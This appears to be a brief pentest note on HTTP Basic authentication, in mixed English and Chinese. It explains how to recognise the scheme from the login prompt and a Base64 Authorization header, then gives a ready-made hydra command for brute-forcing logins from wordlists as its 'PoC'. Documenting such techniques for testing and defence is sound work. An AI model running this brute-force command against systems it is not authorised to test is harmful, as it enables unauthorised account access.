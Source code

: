 The "Basic" Hypertext Transfer Protocol (HTTP) authentication scheme transmits credentials as user-id/password pairs encoded using Base64.

## 1. Fingerprint

访问网站时的登录窗口

![访问网站时的登录窗口](./../../../image/Basic%20Auth/%E8%AE%BF%E9%97%AE%E7%BD%91%E7%AB%99%E6%97%B6%E7%9A%84%E7%99%BB%E5%BD%95%E7%AA%97%E5%8F%A3.png)

登录时的请求包

```
GET / HTTP/1.1
Host: 192.168.36.55:81
Authorization: Basic dXNlcjpwYXNzd2Q=


```

> `dXNlcjpwYXNzd2Q=` 为 Base 64 编码后的 `user:passwd` 

## 2. PoC

```
hydra 192.168.36.55 -s 81 http-get / -L username.txt -P password.txt -e ns -vV
```

---

References

- [The 'Basic' HTTP Authentication Scheme](https://datatracker.ietf.org/doc/html/rfc7617)